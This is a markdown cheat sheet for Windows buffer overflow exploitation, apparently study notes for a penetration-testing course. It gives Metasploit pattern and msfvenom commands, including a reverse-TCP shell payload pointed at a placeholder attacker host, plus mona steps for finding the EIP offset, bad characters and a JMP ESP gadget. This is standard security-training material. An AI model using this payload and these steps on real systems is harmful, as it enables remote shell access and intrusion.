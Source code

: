 ## Generate a Cyclic Pattern

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

Then place it in `exploit.py` to detect and control EIP.

<br/>

## Generate Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT EXITFUNC=thread -b "\x00" -f c
```

<br/>

## Mona

### 1. Set Working Directory
```bash
!mona config -set workingfolder c:\mona\%p
```

### 2. Find EIP offset
```bash
!mona findmsp -distance BUFFER_SIZE

# example
!mona findmsp -distance 2400
```
![eip_offset](https://miro.medium.com/max/700/1*v2hBWypZ7Xtpd8pvpvPhgQ.png)


### 3. Find Bad Character
```bash
# create bad character set
!mona bytearray -b "\x00"

# find bad characters
!mona compare -f C:\mona\oscp\bytearray.bin -a ESP_ADDRESS
```

After you created bad characters set, and executing the exploit. Get the ESP address, and run the above command should give
the table that looks like below.

![mona_bad](https://raw.githubusercontent.com/the-robot/0x00/master/images/mona_bad_characters.png)


### 4. Find JMP ESP without Bad Character
```bash
!mona jmp -r esp -cpb "\x00"
```

<br/>

## Bad Characters
|  ..  |  ..  |  ..  |  ..  |  ..  |  ..  |  ..  |  ..  |
|:----:|:----:|:----:|:----:|:----:|:----:|:----:|:----:|
| \x01 | \x02 | \x03 | \x04 | \x05 | \x06 | \x07 | \x08 |
| \x09 | \x0a | \x0b | \x0c | \x0d | \x0e | \x0f | \x10 |
| \x11 | \x12 | \x13 | \x14 | \x15 | \x16 | \x17 | \x18 |
| \x19 | \x1a | \x1b | \x1c | \x1d | \x1e | \x1f | \x20 |
| \x21 | \x22 | \x23 | \x24 | \x25 | \x26 | \x27 | \x28 |
| \x29 | \x2a | \x2b | \x2c | \x2d | \x2e | \x2f | \x30 |
| \x31 | \x32 | \x33 | \x34 | \x35 | \x36 | \x37 | \x38 |
| \x39 | \x3a | \x3b | \x3c | \x3d | \x3e | \x3f | \x40 |
| \x41 | \x42 | \x43 | \x44 | \x45 | \x46 | \x47 | \x48 |
| \x49 | \x4a | \x4b | \x4c | \x4d | \x4e | \x4f | \x50 |
| \x51 | \x52 | \x53 | \x54 | \x55 | \x56 | \x57 | \x58 |
| \x59 | \x5a | \x5b | \x5c | \x5d | \x5e | \x5f | \x60 |
| \x61 | \x62 | \x63 | \x64 | \x65 | \x66 | \x67 | \x68 |
| \x69 | \x6a | \x6b | \x6c | \x6d | \x6e | \x6f | \x70 |
| \x71 | \x72 | \x73 | \x74 | \x75 | \x76 | \x77 | \x78 |
| \x79 | \x7a | \x7b | \x7c | \x7d | \x7e | \x7f | \x80 |
| \x81 | \x82 | \x83 | \x84 | \x85 | \x86 | \x87 | \x88 |
| \x89 | \x8a | \x8b | \x8c | \x8d | \x8e | \x8f | \x90 |
| \x91 | \x92 | \x93 | \x94 | \x95 | \x96 | \x97 | \x98 |
| \x99 | \x9a | \x9b | \x9c | \x9d | \x9e | \x9f | \xa0 |
| \xa1 | \xa2 | \xa3 | \xa4 | \xa5 | \xa6 | \xa7 | \xa8 |
| \xa9 | \xaa | \xab | \xac | \xad | \xae | \xaf | \xb0 |
| \xb1 | \xb2 | \xb3 | \xb4 | \xb5 | \xb6 | \xb7 | \xb8 |
| \xb9 | \xba | \xbb | \xbc | \xbd | \xbe | \xbf | \xc0 |
| \xc1 | \xc2 | \xc3 | \xc4 | \xc5 | \xc6 | \xc7 | \xc8 |
| \xc9 | \xca | \xcb | \xcc | \xcd | \xce | \xcf | \xd0 |
| \xd1 | \xd2 | \xd3 | \xd4 | \xd5 | \xd6 | \xd7 | \xd8 |
| \xd9 | \xda | \xdb | \xdc | \xdd | \xde | \xdf | \xe0 |
| \xe1 | \xe2 | \xe3 | \xe4 | \xe5 | \xe6 | \xe7 | \xe8 |
| \xe9 | \xea | \xeb | \xec | \xed | \xee | \xef | \xf0 |
| \xf1 | \xf2 | \xf3 | \xf4 | \xf5 | \xf6 | \xf7 | \xf8 |
| \xf9 | \xfa | \xfb | \xfc | \xfd | \xfe | \xff |      |
